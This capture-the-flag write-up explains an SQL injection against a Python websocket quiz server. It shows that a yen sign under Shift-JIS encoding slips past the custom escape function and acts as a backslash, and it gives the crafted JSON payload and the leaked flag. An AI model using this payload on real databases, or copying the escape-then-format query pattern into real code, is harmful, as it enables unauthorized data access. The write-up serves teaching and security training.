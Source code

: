 ### Solution
We are presented with a japanese website, with javascript on the client side
interacting with a mysql server over websockets.
 
On inspection of the server side code provided, we can see that the escape function
 is relatively sound, however it depends entirely on python strings.

``` python
# List from http://php.net/manual/en/function.mysql-real-escape-string.php
MYSQL_SPECIAL_CHARS = [
  ("\\", "\\\\"),
  ("\0", "\\0"),
  ("\n", "\\n"),
  ("\r", "\\r"),
  ("'", "\\'"),
  ('"', '\\"'),
  ("\x1a", "\\Z"),
]
def mysql_escape(s):
  for find, replace in  MYSQL_SPECIAL_CHARS:
    s = s.replace(find, replace)
  return s
```
 
We can also see that the language for database communications has been
set to sjis (supposedly so that it uses less bytes)

``` python
# Use Shift-JIS for everything so it uses less bytes
Response.charset = "shift-jis"
connect_params["charset"] = "sjis"
```

Another point of interest is the database queries section, specifically 
the section that has a select query. Presumably the flag is the first row in the database

``` python
...
      elif message["type"] == "get_answer":
        question = mysql_escape(message["question"])
        answer = mysql_escape(message["answer"])
        cursor.execute('SELECT * FROM answers WHERE question="%s" AND answer="%s"' % (question, answer))
        ws.send(json.dumps({"type": "got_answer", "row": cursor.fetchone()}))
...
```

After a bit of googling, we find out that sjis has replaced the backslash character
with the yen symbol (u00a5)- so in sjis systems, that character represents the same
byte value as the backslash character. This means that if we send the yen
symbol to python - it won't escape it, since it's a different byte value,
however when the database reads it, it reads it as 0x5c, which is an escape. We
can use this to our advantage to craft a payload that does a little bit of sql injection.
Another thing we have to be aware of is the message needs to be valid json, or the
server will close the connection.

The crafted json to send to the websocket:

``` json

{"answer": "", "question": "\u00a5\" or 1 = 1;", "type": "get_answer"}

```

and the resulting query (remember that ¥ is equivalent to \):
``` sql
SELECT * FROM answers WHERE question="¥\" or 1 = 1;" AND answer=""
```

which results in the flag being obtained

``` json

{"type": "got_answer", "row": [1, "flag", "BKPCTF{TryYourBestOnTheOthersToo}"]}

```
